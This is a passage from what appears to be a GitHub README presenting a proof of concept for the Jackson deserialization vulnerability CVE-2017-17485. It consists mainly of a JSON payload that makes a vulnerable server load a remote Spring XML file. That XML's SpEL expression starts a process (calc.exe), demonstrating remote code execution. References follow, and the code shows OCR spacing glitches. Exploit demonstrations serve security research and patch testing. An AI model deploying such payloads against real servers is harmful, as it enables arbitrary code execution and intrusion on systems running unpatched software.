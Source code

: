 ```http
{"id":1, "obj":["org.springframework.context.support.ClassPathXmlApplicationContext", "https://raw.githubusercontent.com/iBearcat/Jackson-CVE-2017-17485/master/spel.xml "]}
```
The content of xml is:
```xml
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java. lang. ProcessBuilder">
        <constructor-arg value="calc.exe" />
        <property name="whatever" value="#{ pb. start() }"/>
    </bean>
</beans>
```

#### Demo
![](jackson-CVE-2017-17485-poc.gif)

### refer to
- https://github.com/JoyChou93/java-sec-code
- https://www.leadroyal.cn/?p=594
- https://www.leadroyal.cn/?p=630
- [Introduction to Jackson Deserialization Vulnerability (4): Defense and Detection Methods [End of the series]](https://www.leadroyal.cn/?p=633)
